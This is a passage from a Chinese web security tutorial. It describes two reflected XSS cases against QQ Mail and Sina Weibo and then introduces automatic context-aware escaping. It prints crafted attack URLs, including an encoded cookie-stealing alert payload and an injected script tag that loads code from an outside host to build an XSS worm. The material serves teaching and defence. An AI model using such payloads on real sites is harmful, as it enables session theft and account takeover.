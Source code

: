 

----------

### XSS 攻击案例

> **QQ 邮箱 m.exmail.qq.com 域名反射型 XSS 漏洞**

攻击者发现 `http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb` 这个 URL 的参数 uin、domain 未经转义直接输出到 HTML 中。

于是攻击者构建出一个 URL，并引导用户去点击： `http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb%26quot%3B%3Breturn+false%3B%26quot%3B%26lt%3B%2Fscript%26gt%3B%26lt%3Bscript%26gt%3Balert(document.cookie)%26lt%3B%2Fscript%26gt%3B`

用户点击这个 URL 时，服务端取出 URL 参数，拼接到 HTML 响应中：
~~~ js
<script>
    getTop().location.href="/cgi-bin/loginpage?autologin=n&errtype=1&verify=&clientuin=aaa"+"&t="+"&d=bbbb";
    return false;
</script>
<script>alert(document.cookie)</script>"+"...
~~~
浏览器接收到响应后就会执行 `alert(document.cookie)`，攻击者通过 JavaScript 即可窃取当前用户在 QQ 邮箱域名下的 Cookie ，进而危害数据安全。

> **新浪微博名人堂反射型 XSS 漏洞**

攻击者发现 `http://weibo.com/pub/star/g/xyyyd` 这个 URL 的内容未经过滤直接输出到 HTML 中。

于是攻击者构建出一个 URL，然后诱导用户去点击：

`http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>`

用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：

    <li><a href="http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>">按分类检索</a></li>

浏览器接收到响应后就会加载执行`恶意脚本 //xxxx.cn/image/t.js`，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上攻击 URL，诱导更多人点击，不断放大攻击范围。这种窃用受害者身份发布恶意内容，层层放大攻击范围的方式，被称为“`XSS 蠕虫`”。




------

### 扩展阅读：Automatic Context-Aware Escaping

1. 合适的 HTML 转义可以有效避免 XSS 漏洞。
2. 完善的转义库需要针对上下文制定多种规则，例如 HTML 属性、HTML 文字内容、HTML 注释、跳转链接、内联 JavaScript 字符串、内联 CSS 样式表等等。
3. 业务 RD 需要根据每个插入点所处的上下文，选取不同的转义规则。

通常，转义库是不能判断插入点上下文的`（Not Context-Aware）`，实施转义规则的责任就落到了业务 RD 身上，需要每个业务 RD 都充分理解 XSS 的各种情况，并且需要保证每一个插入点使用了正确的转义规则。

这种机制工作量大，全靠人工保证，很容易造成 XSS 漏洞，安全人员也很难发现隐患。

2009年，Google 提出了一个概念叫做：[Automatic Context-Aware Escaping](https://security.googleblog.com/2009/03/reducing-xss-by-way-of-automatic.html)。

